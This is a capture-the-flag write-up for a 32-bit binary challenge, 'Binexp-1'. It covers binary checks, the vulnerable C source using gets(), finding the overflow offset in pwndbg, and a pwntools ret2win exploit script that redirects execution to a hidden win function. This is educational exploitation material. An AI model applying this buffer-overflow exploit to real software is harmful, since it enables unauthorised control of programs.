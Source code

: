 # Binexp-1

> **Description:** Ever heard of the cow that jumps over the moon? 
>
> **Remote Instance:** nc 54.255.236.13 9001

### Basic File Checks

Perform basic file checks to understand how the binary was compiled.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ file binexp-1 
binexp-1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=cc905ed71a037c20214db617b5901e4542899113, not stripped
```

From the command above, some of the major takeaways are:

- ELF File Type.
- 32-bit.
- Least Significant Bit (LSB) executable.
- Functions name not stripped.

We can also perform binary protection checks to get an overall idea on where to start tackling the challenge. `No PIE` indicates that we do not have to worry about Address Randomization when performing a `ret2win` attack.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ checksec --file=binexp-1 
[*] '/home/kali/Desktop/binexp-1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Code Analysis

By looking at the source code, the `win` function appears to be a dead-code and unreachable by logic. It was initialized but never called by the `main` function. Once again, the same Buffer Overflow vulnerability presents in the `gets` function.

```c
#include <stdio.h>
#include <stdlib.h>

char flag[100];

int win() {
	printf("%s", flag);
	fflush(stdout);
}

int main(int argc, char *argv[]) {
	char buf[64];

	FILE *f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("'flag.txt' not found.");
		exit(0);
	}

	fgets(flag, 100, f);

	puts("Can you make this jump?");
	gets(buf);
	puts("Welp... Guest not.");
}
```

### Finding Offset & Address

To find the offset or the number of characters required to fill the padding, we can use the `cyclic` module together with `pwn-dbg`. When the program crashes due to segmentation fault, we can inspect the EIP’s value and perform a lookup to determine its offset.

```
pwndbg: loaded 198 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from binexp-1...
(No debugging symbols found in binexp-1)
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

pwndbg> run
Starting program: /home/kali/Desktop/binexp-1 
Can you make this jump?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welp... Guest not.

Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
 EAX  0x13
 EBX  0x0
 ECX  0xffffffff
 EDX  0xffffffff
 EDI  0x8048480 (_start) ◂— xor    ebp, ebp
 ESI  0x1
 EBP  0x61616174 ('taaa')
 ESP  0xffffd110 ◂— 'vaaawaaaxaaayaaa'
 EIP  0x61616175 ('uaaa')
─────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
Invalid address 0x61616175

pwndbg> cyclic -l uaaa
80
```

Instead of overwriting a variable, we can overwrite the Instruction Pointer with the address of `win` function. Since PIE is not enabled, we can easily get the static address of `win` function and have the EIP point to that particular address.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ objdump -D binexp-1 | grep "win"     
08048534 <win>:   
```

To ensure that the stack contains the proper amount of bytes to be aligned, we can make use of the `ret` gadget to fill up the space.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ropgadget binexp-1 | grep "ret" 
0x080483be : ret
```

### Solution

Using pwntools to automate the process:

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('./binexp-1')
rop = ROP(elf)

p = elf.process()
#p = remote('54.255.236.13', 9001)

def exploit():

    padding = b'A'*80
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['win']

    payload = padding
    payload += p32(ret)
    payload += p32(flag)

    print(p.recvuntil(b'?'))

    print(payload)
    p.sendline(payload)

    p.interactive()

def main():
    exploit()

if __name__ == "__main__":
    main()
```

